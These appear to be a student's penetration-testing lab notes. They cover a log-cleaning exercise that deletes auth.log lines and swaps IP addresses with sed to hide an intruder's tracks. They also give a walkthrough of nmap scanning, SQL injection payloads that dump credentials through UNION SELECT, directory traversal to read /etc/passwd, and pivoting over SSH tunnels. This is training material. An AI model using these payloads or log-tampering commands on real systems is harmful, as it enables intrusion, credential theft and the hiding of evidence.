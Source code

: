     

## Log cleaning example question.

        In order to receive credit for this challenge you must provide the md5sum of the auth.log after it has been cleaned.

    There are log entries from the network you pivoted from.
    The user name is 'billybob'
    You don’t know the exact IP address but you know the network is a 172.16.0.0/16

        cat auth.log | grep 172
        egrep -v '21:51:32|10:02:15' auth.log > auth.lame
        sed -i 's/172.16.34.4/192.168.1.103/g' auth.lame

    
        
    
    
## Dry run notes:
    
    - nmap starting IP address.
        nmap -Pn -T4 *start ip*
    - we noticed port 22 and 80 open.
        nmap -Pn -T4 --script=banner,http-enum.nse *start ip*
        do this to ensure ports are what they say they are, and enumerate http.
    - port 80 was open, so we'll open Firefox and navigate to that site.
        first thing on new site, scroll up and down and click on stuff.
        open everything in new tabs. 
        we see three different links, they all lead to the same page.
        we notice an input box where we can exploit.
        we notice a box where we can upload a file. (malicious php file)
        we notice a user login page.
        we saw the scripts directory from our nmap script. -> click on that and find creds.
    - we saw that we could click on the login box. use sql injection like bob' or 1='1
        to see info.
            open developer console, capture the traffic. change the post request to raw, add a question mark after the php, paste the raw request after it. then view page source.
    - decode encoded passwords using Cyberchef
    - if you see file to read, think DIRECTORY TRAVERSAL
        go back to the input box, and check ../../../../etc/hosts, /etc/passwd etc.
    - in /etc/hosts -> we see the IP address to what we can assume is the next pivot.
    - use creds you found to SSH into the back end of the start ip.
    - Once you get on a box, things you should do ->
        cat /etc/hosts, /etc/passwd etc. | ip neigh | ruby pingsweep
    - used ping sweep and found two ip's we could reach from that machine.
        so create a dynamic, and nmap those ip's you found.
    - results of nmap scan returned port 22,80 open on one of the ip's
        and returned 22 on another.
        if you see port 80 open, use the http enum script.
    - create your tunnels to reach the ports on these machines.
        close your dynamic. 
        create your port forwards to those ip's / ports.
    - check out whatever's being hosted on that port 80. 
        its a SQL server! with options you can check.
        when you get on one of these, start to "fuzz"
        pick.php?product=1 OR 1=1; (do this on all of them) we find #7 is vulnerable.
        once you find the vulnerable one, use something like
        product=7 union select 1,2,3; 
        move on to golden statement.
        product=7 union select table_schema,column_name,table_name from information_schema.columns
        three defaults to ignore: information_schema, mysql, performance_schema.
        dump specific: UNION SELECT name,username,user_id FROM siteusers.users;
        this returns login credentials.
        you might see something that says -> what date was this thing purchased?
    - attempt to ssh to the next box that we saw above using creds found on SQL server.
